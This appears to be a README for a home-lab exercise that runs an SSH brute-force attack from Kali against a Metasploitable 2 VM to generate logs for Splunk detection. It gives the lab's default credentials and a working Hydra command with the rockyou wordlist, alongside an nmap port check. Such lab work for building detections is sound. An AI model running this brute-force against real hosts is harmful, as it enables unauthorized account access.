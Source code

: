# 🔓 SSH Brute-Force Attack Scenario

This scenario simulates a brute-force SSH attack from Kali Linux against a vulnerable Metasploitable 2 target. It's used to generate logs, test Splunk detection, and understand attack behavior.

## 🎯 Target
- IP: `192.168.x.x` (Metasploitable VM)
- Service: OpenSSH
- Port: 22
- Default creds: `msfadmin:msfadmin`

## 🛠️ Tools Used
- `hydra`
- `nmap`
- `wireshark` or `tcpdump` (optional)

## 🔍 Steps
1. Confirm SSH is open:
   ```bash
   nmap -p 22 192.168.x.x
   ```

2. Launch brute-force attack with Hydra:
   ```bash
   hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.x.x
   ```

3. Monitor logs or traffic with:
   ```bash
   wireshark
   ```

## 📝 Notes
- Successful brute-force attempt should be visible in:
  - Splunk SSH logs
  - Wireshark TCP streams
  - Metasploitable's `/var/log/auth.log` (if accessible)

## 🧠 Learning Points
- Observe timing, connection attempts, and delays
- Analyze how brute-force behavior appears in logs
- Use data for detection rules or alerts in Splunk
